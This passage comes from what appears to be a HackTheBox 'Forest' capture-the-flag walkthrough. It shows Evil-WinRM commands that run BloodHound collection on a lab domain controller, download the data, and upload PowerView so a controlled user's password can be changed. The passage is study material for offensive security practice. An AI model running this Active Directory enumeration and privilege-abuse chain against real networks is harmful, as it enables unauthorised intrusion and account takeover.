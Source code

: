 ## Collecting the data
```console
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> Invoke-Bloodhound -collectionmethod all -zipfile test
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> dir


    Directory: C:\Users\svc-alfresco\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         7/4/2021  12:39 AM          15928 20210704003952_test.zip
-a----         7/4/2021  12:39 AM          25430 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----         7/4/2021  12:38 AM         974235 sharp.ps1
-ar---        9/23/2019   2:16 PM             32 user.txt
```

## Downloading the zip
```console
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> download 20210704003952_test.zip
Info: Downloading C:\Users\svc-alfresco\desktop\20210704003952_test.zip to 20210704003952_test.zip

                                                             
Info: Download successful!

```

## Loading the data in Bloodhound
![image](/assets/images/htb-boxes/forest/Pasted image 20210704132452.png)
Looking at the graph, our user owns the user tick@htb.local. 

Bloodhound also gives us info on how we can abuse this privilege.
![image](/assets/images/htb-boxes/forest/Pasted image 20210704132546.png)

## Changing password of user tick
![image](/assets/images/htb-boxes/forest/Pasted image 20210704132807.png)
It suggests that we should powerview to change the password. So, let us upload the powerview and load it on the memory.

## Uploading powerview
```console
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> upload powerview.ps1
Info: Uploading powerview.ps1 to C:\Users\svc-alfresco\desktop\powerview.ps1

                                                             
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> . .\powerview.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> 
```

